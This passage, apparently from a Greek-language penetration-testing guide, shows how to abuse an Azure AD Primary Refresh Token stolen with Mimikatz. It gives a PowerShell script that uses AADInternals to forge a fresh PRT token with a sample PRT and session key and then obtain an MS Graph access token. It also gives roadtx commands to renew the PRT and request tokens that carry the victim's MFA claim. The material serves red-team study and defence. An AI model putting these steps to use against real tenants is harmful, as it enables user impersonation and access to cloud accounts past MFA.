 Μπορείτε επίσης να χρησιμοποιήσετε **`roadtx`** και **`roadrecon`** με το PRT του PRT cookie για να προσποιηθείτε τον χρήστη *(TODO: Find the exact command lines to use roadtx/roadrecon to get credentials from a PRT)*.

### Mimikatz + AADInternals

Το **`AADInternals`** PowerShell module μπορεί επίσης να χρησιμοποιηθεί με το προηγουμένως αποκτηθέν PRT και το κλειδί συνεδρίας για να παραχθεί ένα έγκυρο PRT token. Αυτό είναι χρήσιμο για την αυτοματοποίηση της διαδικασίας απόκτησης ενός νέου PRT token με nonce, το οποίο μπορεί να χρησιμοποιηθεί για την ανάκτηση διακριτικών πρόσβασης για το Azure AD Graph API ή άλλους πόρους:
```bash
# Code from https://aadinternals.com/post/prt/
# Add the PRT to a variable
$MimikatzPRT = "MS5BVUVCNFdiUV9UZnV2RW13ajlEaFVoR2JCSWM3cWpodG9CZElzblY2TVdtSTJUdENBY1JCQVEuQWdBQkF3RUFBQUJWclNwZXVXYW1SYW0yakFGMVhSUUVBd0RzX3dVQTlQO...R0RjNFQ0QxaHJ1RFdJeHZUM0stWjJpQVhmMnBLeWpPaHBIOVc"

# Add padding
while($MimikatzPRT.Length % 4) {$MimikatzPRT += "="}

# Convert from Base 64
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Add the session key (Clear key) to a variable
$MimikatzKey = "7ee0b1f2eccbae440190bf0761bc52099ad7ae7d10d28bd83b67a81a0dfa0808"

# Convert to byte array and base 64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate a new PRTToken with nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey

# Get an access token for MS Graph API
Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
```
Αυτό αποκτά ένα νέο cookie PRT (με nonce) και στη συνέχεια το χρησιμοποιεί για να αποκτήσει ένα access token για το Azure AD Graph API (δείχνοντας πρόσβαση στο cloud εκ μέρους του χρήστη). Το AADInternals αφαιρεί μεγάλο μέρος της κρυπτογραφίας και χρησιμοποιεί τα Windows components ή τη δική του λογική στο παρασκήνιο.

### Mimikatz + roadtx

- Ανανεώστε πρώτα το PRT, το οποίο θα αποθηκευτεί στο `roadtx.prt`:
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
- Τώρα μπορούμε να **αιτήσουμε tokens** χρησιμοποιώντας τον διαδραστικό περιηγητή με `roadtx browserprtauth`. Αν χρησιμοποιήσουμε την εντολή `roadtx describe`, βλέπουμε ότι το access token περιλαμβάνει μια αξίωση MFA επειδή το PRT που χρησιμοποίησα σε αυτή την περίπτωση είχε επίσης μια αξίωση MFA.
```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
<figure><img src="../../../images/image (44).png" alt=""><figcaption></figcaption></figure>
